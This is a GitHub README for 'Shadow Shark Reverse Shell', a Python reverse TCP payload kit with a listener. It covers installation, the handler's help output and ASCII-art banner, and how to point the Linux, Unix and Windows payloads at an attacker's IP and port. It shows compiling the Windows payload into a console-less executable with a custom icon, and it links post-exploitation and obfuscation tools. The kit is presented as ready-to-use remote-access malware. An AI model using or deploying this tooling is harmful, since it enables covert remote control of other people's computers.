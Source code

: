 # Shadow Shark Reverse Shell 
A full fledged reverse TCP payload written in pure python3.

## Installation
### Debian
```
$ sudo apt-get install python3 git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```
### Arch
```
$ sudo pacman -S python git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```

## Usage
### ShadowShark.py
```
$ ShadowShark --help

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
usage: ShadowShark.py [-h] -lh LHOST -lp LPORT -e ENCRYPTION

This tool is a full fledged reverse TCP handler used to interact with Shadow
Shark payloads. Created by Mr. Shark Spam Bot.

optional arguments:
  -h, --help            show this help message and exit
  -lh LHOST, --lhost LHOST
                        Your IP address.
  -lp LPORT, --lport LPORT
                        The port to listen for connections on.
  -e ENCRYPTION, --encryption ENCRYPTION
                        The encryption used for sent and recieved data.
$ ShadowShark --lhost 0.0.0.0 --lport 8080 --encryption hex

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
[*] A reverse TCP handler on 0.0.0.0:8080 has successfully started...
```
To send data with newline characters use the command multiline.
### ShadowSharkPayload.py
This payload can run on Linux, Windows, and MacOS. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### UnixPayload.py
This payload can run on any Unix based system. To configure the payload go to line 35 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from. The command directory prints the current working terminal prompt. The command background_exec runs any bash command in the background.
### WindowsPayload.py
This payload can run on any Windows system. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from. The command directory prints the current working directory. The command background_exec runs any cmd command in the background.
### Compile.py
This compilation script can only be run on a Windows computer or Wine environment. To configure the compilation script go to line 14 and replace ICON with the icon file you want your exe file to have to have. To do this make sure that the ShadowSharkPayload.py script, your icon file, and the Compile.py script are in the same folder and that py2exe is installed.
```
# First install python3 on your Windows computer or Wine environment.
$ pip install py2exe
$ python Compile.py py2exe
```
### Alternative compilation
```
# First install python3 on your Windows computer or Wine environment.
$ pip install nuitka zstandard
$ nuitka --windows-disable-console --windows-icon-from-ico=icon.ico --onefile WindowsPayload.py
```

## Post Exploitation
<a href="https://github.com/BababooeyHackers/ScreenView">Screen View</a><br>
<a href="https://github.com/BababooeyHackers/Downloader">Downloader</a><br>

## Obfuscation
<a href="https://github.com/MrSharkSpamBot/GlidingSword">Gliding Sword</a>

